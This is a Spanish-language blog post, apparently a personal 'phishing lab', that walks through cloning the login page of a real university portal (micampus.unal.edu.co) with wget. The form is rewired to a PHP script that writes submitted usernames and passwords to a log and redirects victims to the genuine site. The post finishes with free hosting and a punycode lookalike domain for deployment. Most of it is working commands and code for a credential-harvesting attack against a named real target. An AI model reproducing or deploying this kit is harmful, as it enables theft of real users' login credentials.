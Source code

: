 ```yaml
---
title: Laboratorio de pishing
author: Fredy Rosero
tags: [laboratorio, pishing]
date: 2022-05-20'
layout: post
categories: [laboratorios]
excerpt_separator: <!--more-->
---
```

![thumbnail]()

Abstract.
 <!--more-->

## Prerrequisitos
```bash
sudo apt install
```

## Método manual
Esto es manual
### WGet
-E
--adjust-extension
> If a file of type application/xhtml+xml or text/html is downloaded and the URL does not end with the regexp \.[Hh][Tt][Mm][Ll]?, this option will cause the suffix .html to be appended to the local filename.

-H
--span-hosts
> Enable spanning across hosts when doing recursive retrieving. 

-k
--convert-links
> After the download is complete, convert the links in the document to make them suitable for local  viewing.

-K
--backup-converted
> When converting a file, back up the original version with a .orig suffix. Affects the behavior of -N. 
-p
--page-requisites
> This option causes Wget to download all the files that are necessary to properly display a given HTML page.

-nH
--no-host-directories
> Disable generation of host-prefixed directories.

#### Descarga de página
```bash
URL=https://micampus.unal.edu.co/
USER_AGENT='"Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/60.0"'
WEB_PATH=$(pwd)/web
wget -E -H -k -K -p -nH --cut-dirs=100 -nv $URL --user-agent $USER_AGENT --directory-prefix=$WEB_PATH
```
### Index.html
Vamos a copiar el archivo `index.html`
```bash
cd web
cp index.html index.html.bkp
vim index.html
# :q
```

Luego lo formateamos con [tidy](https://www.html-tidy.org/)
```bash
tidy -indent --indent-spaces 2 --quiet --tidy-mark no index.html.bkp > index.html
```

Ahora buscamos el formulario de login y cambiamos su atributo [`action`](https://developer.mozilla.org/es/docs/Web/HTML/Element/form#attr-action) a `pish.hp` el cual será la URI del programa que procesará la información enviada por medio del formulario.
```bash
vim index.html
# q/i action=
# vi"c
# phish.php
# :w
```

Tambien identificamos el atributo `name` de los inputs del mismo formulario
```bash
# q/i name=
# :q
```

Ahora creamos el archivo `phish.php` con el comando `vim phish.php`, pegamos y el siguiente contenido y salimos con `:wq`
```php
<?php
// Extraer Form data
$form_data = file_get_contents('php://input'); // Guardar cuerpo de la petición en un string
parse_str($form_data, $parsed); // Parsea un string a variables

// Construimos el mensaje a guardar
$log = "=============+=============\n";
$log .= "Username:	" . $parsed['username'] . "\n";
$log .= "Password:	" . $parsed['password'] . "\n";
$log .= "===========================\n\n\n";

// Escribimos en el archivo `log`
$logpath = "log";
$file = fopen($logpath, 'a'); // la opción a (de append) permite abrir para agregar
fwrite($file, $log);
fclose($file);

// redirection link will be set automatically
$URL = "https://micampus.unal.edu.co/";
header("Location: ${URL}");
?>
```

Lanzamos el servidor web standalond de php con
```bash
php -S 0.0.0.0:8081
```
### Servidor web
1. Solicitamos un hosting grauito en 000webhost.com
1. Definimos el dominio p. ej. *i❤️uqbar.ml*
1. Traducimos la url a punycode en [punycoder](https://www.punycoder.com/) p. ej. *xn--iuqbar-i50d.ml*
1. Creamos un dominio en freenom.com y asignamos la redirección o registro DNS p. ej. *http://test-uqbar.000webhostapp.com/*. Esto implica verificar el correo



